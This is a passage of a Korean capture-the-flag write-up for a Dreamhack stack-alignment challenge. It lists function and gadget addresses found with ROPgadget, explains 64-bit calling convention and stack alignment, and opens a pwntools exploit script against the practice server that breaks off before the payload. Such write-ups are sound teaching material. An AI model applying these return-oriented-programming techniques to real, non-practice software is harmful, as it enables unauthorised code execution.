 - 주소는 다음과 같다.
    - `execute_stage1` : `0x4012a3`
    - `execute_stage2` : `0x40131a`
    - `get_flag` : `0x4013b6`

### ROPgadget

- `execute_stage1` , `execute_stage2` 에 인자를 전달해주기 위해, `pop rdi` 가젯을 찾았다.
    - `chall` 은 64비트 프로그램이므로, SYSV 함수 호출 규약을 사용한다.
        - `rdi -> rsi -> rdx -> rcx -> r8 -> r9 -> stack`
- Stack Alignment를 위해 `ret` 가젯을 찾았다.
    - 64비트 ROP 공격에서 `system` 함수를 사용할 때에는 `0x10` (16 바이트) 스택 정렬이 되어있어야 한다.
        - 이번 문제에서는 `check_alignment` 함수가 존재하기 때문에 스택 정렬을 해야한다.

```jsx
$ ROPgadget --binary chall --re="pop rdi"
$ ROPgadget --binary chall --re="ret"
```

![스크린샷 2024-11-25 오후 7.16.11.png](Level1%20stack%20aligne%20test%20517849c798d54705a3e2bf9e566ea3c0/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA_2024-11-25_%25E1%2584%258B%25E1%2585%25A9%25E1%2584%2592%25E1%2585%25AE_7.16.11.png)

![스크린샷 2024-11-25 오후 7.16.43.png](Level1%20stack%20aligne%20test%20517849c798d54705a3e2bf9e566ea3c0/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA_2024-11-25_%25E1%2584%258B%25E1%2585%25A9%25E1%2584%2592%25E1%2585%25AE_7.16.43.png)

- 가젯 주소
    - `pop rdi` : `0x401565`
    - `ret` : `0x40101a`

### 익스플로잇

- 다음과 같이 익스플로잇을 작성하였다.
- 64비트 아키텍처에서 주소가 64비트(8바이트, `0x8`) 임에 유의하여, Stack Alignment를 해주어야 한다.
- 인텐 풀이

```jsx
from pwn import *

context.log_level = 'debug'

p = remote('host3.dreamhack.games', 17056)

print_stage_info = 0x40144e
execute_stage1 = 0x4012a3
execute_stage2 = 0x40131a
get_flag = 0x4013b6

pop_rdi = 0x401565
ret = 0x40101a

key = 0xb526fb88
key1 = key ^ 0xCAFEBABE
key2 = 0xCAFEBABE ^ 0xF00DBABE
key3 = 0xF00DBABE ^ 0x12345678
```
